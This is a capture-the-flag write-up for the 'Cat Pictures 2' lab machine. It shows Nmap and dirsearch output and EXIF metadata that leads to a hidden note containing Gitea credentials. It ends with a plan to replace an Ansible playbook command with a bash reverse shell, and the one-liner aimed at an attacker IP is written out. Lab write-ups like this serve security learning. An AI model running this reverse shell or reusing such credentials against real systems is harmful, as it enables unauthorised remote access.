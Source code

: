 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=Cat+Pictures+2)](https://git.io/typing-svg)

</br>

![Challenge Description](catpic2.png)

# Enumeration
##
### Let's begin with a rapid Nmap scan.
</br>

```bash
root@Fs:.../CTFs/catpictures2# nmap -sCV -oN nmap 10.10.44.70
# Nmap 7.80 scan initiated Mon Jul  3 19:58:08 2023 as: nmap -sCV -oN nmap 10.10.44.70
Nmap scan report for 10.10.44.70
Host is up (0.079s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
|   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
|_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
|_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/
|_http-title: Lychee
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  3 19:58:29 2023 -- 1 IP address (1 host up) scanned in 21.17 seconds
```
##
    *80 — lychee*
    *8080 — python http server*
    *22,222 — ssh*
</br>

### Performing a scan using Dirsearch

```bash

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/10.10.187.79/-_23-07-06_21-12-01.txt

Error Log: /root/.dirsearch/logs/errors-23-07-06_21-12-01.log

Target: http://10.10.187.79/

[21:12:01] Starting: 
[21:12:03] 301 -  193B  - /robots.txt 
[21:12:04] 403 -  579B  - /.git/
[21:12:04] 403 -  579B  - /.github/
[21:12:04] 403 -  579B  - /.git/refs/
[21:12:04] 403 -  579B  - /.git/objects/
[21:12:04] 200 -  154B  - /.github/ISSUE_TEMPLATE.md
[21:12:04] 200 -  274B  - /.gitignore
[21:12:04] 200 -  630B  - /.htaccess
[21:12:07] 200 -  387B  - /.user.ini
[21:12:09] 200 -    1KB - /LICENSE
[21:12:10] 200 -    5KB - /README.md
```

I attempted to gather information by exploring the .git repository and robots.txt file, but unfortunately, I didn't find anything of interest.
</br>
After some time, I managed to discover interesting information from the EXIF data extracted from an image.

```
root@Fs:.../CTFs/catpictures2# exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
ExifTool Version Number         : 12.40
File Name                       : f5054e97620f168c7b5088c85ab1d6e4.jpg
Directory                       : .
File Size                       : 71 KiB
File Modification Date/Time     : 2022:11:07 19:44:37+01:00
File Access Date/Time           : 2023:07:06 21:20:55+01:00
File Inode Change Date/Time     : 2023:07:06 21:19:41+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Profile CMM Type                : Little CMS
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 2012:01:25 03:41:57
Profile File Signature          : acsp
Primary Platform                : Apple Computer Inc.
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : 
Device Model                    : 
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Little CMS
Profile ID                      : 0
Profile Description             : c2
Profile Copyright               : IX
Media White Point               : 0.9642 1 0.82491
Media Black Point               : 0.01205 0.0125 0.01031
Red Matrix Column               : 0.43607 0.22249 0.01392
Green Matrix Column             : 0.38515 0.71687 0.09708
Blue Matrix Column              : 0.14307 0.06061 0.7141
Red Tone Reproduction Curve     : (Binary data 64 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 64 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 64 bytes, use -b option to extract)
XMP Toolkit                     : Image::ExifTool 12.49
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
Image Width                     : 720
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 720x1080
Megapixels                      : 0.778
```
this part
```Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt```
##
It appears that the system is utilizing another web server to retrieve Info.

```red
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```
</br>
 samarium:TUmhyZ37CLZrhP
</br>

### Upon obtaining this information, we realized that there is a Gitea server running on port 3000, and we have obtained valid credentials for it.

![Screenshot from 2023-07-06 21-31-32](https://github.com/ACHUX21/Writeups/assets/130113878/d5da60f1-a1cd-4731-af5d-89b6eccc7f87)

# Gaining access
![image](https://github.com/ACHUX21/Writeups/assets/130113878/23cfac7c-5b54-494f-a91b-be69ffc138f1)
</br>

Given our knowledge of Ansible Runner (Olivetin) on port 1337, which enables the execution of Ansible playbooks, I intend to replace the existing "echo" command with a reverse shell.

```bash
bash -c "bash -i >& /dev/tcp/10.18.81.1/14632 0>&1"
```






 
 













